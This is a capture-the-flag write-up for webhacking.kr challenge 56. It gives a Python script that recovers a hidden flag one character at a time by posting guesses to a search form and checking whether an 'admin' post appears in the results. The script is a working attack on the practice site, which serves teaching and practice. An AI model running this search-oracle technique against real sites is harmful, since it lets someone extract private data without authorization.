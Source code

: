 # 56 

![!](img/56_0.PNG)

> TIP
> Write any letters and found out the search was searching also includes text inside
> Since we know flags starts with `flag{`, we can use that for our initial keywords 

```py
import requests
from bs4 import BeautifulSoup

URL="https://webhacking.kr/challenge/web-33/index.php"

search_str = "flag{"
next_letter = '!'

# If there is admin
while 1:

    #first letter to check

    check_search = search_str + next_letter

    print(check_search)
    res  = requests.post(URL, data={'search': check_search})
    soup = BeautifulSoup(res.text, 'html.parser')

    print(soup.find_all(text="admin"))
    # found admin
    if(soup.find_all(text="admin")):
        print("Found!")
        search_str = check_search
        next_letter = '!'
    else:
        next_letter = chr(ord(next_letter)+1);
        if(next_letter == '%'):
            next_letter = chr(ord(next_letter)+1);


    if(next_letter == '}'):
        print("Done",search_str)
        break;
```

![!](img/56_1.gif)

When the program is done running the flag is following

![!](img/56_2.PNG)

Now shove it in Auth!

![!](img/56_3.PNG)


